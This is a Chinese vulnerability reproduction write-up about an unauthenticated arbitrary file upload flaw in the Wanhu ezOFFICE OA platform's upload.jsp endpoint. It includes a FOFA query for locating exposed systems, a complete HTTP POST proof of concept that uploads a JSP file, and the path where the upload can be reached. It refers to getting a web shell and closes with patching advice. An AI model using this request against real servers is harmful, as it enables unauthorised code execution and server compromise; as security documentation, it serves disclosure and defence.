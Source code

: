 
# 万户 OA upload 任意文件上传漏洞复现

### 0x01 产品简介

   万户[OA](https://so.csdn.net/so/search?q=OA&spm=1001.2101.3001.7020) ezoffice 是万户网络协同办公产品多年来一直将主要精力致力于中高端市场的一款 OA 协同办公软件产品，统一的基础管理平台，实现用户数据统一管理、权限统一分配、身份统一认证。统一规划门户网站群和协同办公平台，将外网信息维护、客户服务、互动交流和日常工作紧密结合起来，有效提高工作效率。

### 0x02 漏洞概述

 万户 ezOFFICE 协同管理平台 upload 接口处存在任意[文件上传漏洞](https://so.csdn.net/so/search?q=%E6%96%87%E4%BB%B6%E4%B8%8A%E4%BC%A0%E6%BC%8F%E6%B4%9E&spm=1001.2101.3001.7020)，未经身份认证的攻击者可以通过此漏洞上传恶意后门文件，造成代码执行或服务器失陷。

### 0x03 复现环境

FOFA：app="万户 ezOFFICE 协同管理平台"

![](assets/1700528571-b74744b0203ea46319a9f4f3f352dd7f.png)

### 0x04 漏洞复现 

PoC

```cobol
POST /defaultroot/platform/portal/layout/common/upload.jsp?portletSettingId=123&path=abc HTTP/1.1
Host: {{Hostname}}
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/119.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: multipart/form-data; boundary=b0d829daa06c13d6b3e16b0ad21d1eed

--b0d829daa06c13d6b3e16b0ad21d1eed
Content-Disposition: form-data; name="file"; filename="1.jsp"
Content-Type: application/octet-stream

<%out.print("test");%>
--b0d829daa06c13d6b3e16b0ad21d1eed--
```

![](assets/1700528571-1fedb6d29f9954fb2c56b14240f3d29d.png)

验证 url

```cobol
http://your-ip/defaultroot/upload/abc(path参数的值)/202311(现年月)/(返回的文件名).jsp
```

![](assets/1700528571-51647ac08c844d4fcfd03fccc4acbc78.png)

GetShell 

![](assets/1700528571-4a267ccd982a173c2d7235157ac63492.png)

尝试连接 

![](assets/1700528571-274f57c8fe17b8e8ca2deef2a48c2bd1.png)

### 0x05 修复建议

关闭互联网暴露面或接口处设置访问权限

打补丁或升级安全版本
